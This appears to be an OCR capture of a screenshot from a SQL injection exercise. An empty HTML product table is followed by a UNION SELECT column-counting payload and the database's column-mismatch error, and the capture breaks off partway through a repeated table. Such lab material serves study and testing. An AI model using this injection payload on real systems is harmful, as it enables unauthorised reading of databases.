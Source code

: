 

<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)
   </b>
  </td>
 </tr>
 <tr>
  <td style="width:200px">
  </td>
  <td style="width:200px">
  </td>
  <td style="width:450px">
  </td>
  <td style="width:110px">
  </td>
 </tr>
</table>



    
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    
    Payload: 1' UNION SELECT NULL, NULL, NULL -- 
    The used SELECT statements have a different number of columns
    Result table:



<table>
 <tr>
  <td style="width:200px ">
   <b>
    Product Name
   </b>
  </td>
  <td style="width:200px ">
   <b>
    Product Type
   </b>
  </td>
  <td style="width:450px ">
   <b>
    Description
   </b>
  </td>
  <td style="width:110px ">
   <b>
    Price (in USD)